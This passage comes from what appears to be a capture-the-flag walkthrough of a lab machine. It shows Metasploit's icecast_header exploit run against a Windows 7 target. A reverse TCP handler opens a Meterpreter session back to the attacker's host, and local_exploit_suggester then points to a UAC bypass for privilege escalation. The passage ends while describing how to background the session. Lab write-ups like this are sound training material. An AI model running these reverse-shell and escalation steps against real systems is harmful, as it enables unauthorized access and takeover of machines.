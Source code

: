 ```

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/icecast_header) > set rhosts 10.10.97.79
rhosts => 10.10.97.79
msf6 exploit(windows/http/icecast_header) > set lhost 10.8.162.183
lhost => 10.8.162.183
msf6 exploit(windows/http/icecast_header) > run
[*] Started reverse TCP handler on 10.8.162.183:4444 
[*] Sending stage (177734 bytes) to 10.10.97.79
[*] Meterpreter session 1 opened (10.8.162.183:4444 -> 10.10.97.79:49235) at 2025-07-16 19:22:57 +0200

meterpreter > 

```

## Escalate

```
meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

```

Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete* :

```
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.97.79 - Collecting local exploits for x86/windows...

exploit/windows/local/bypassuac_eventvwr
```

Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.
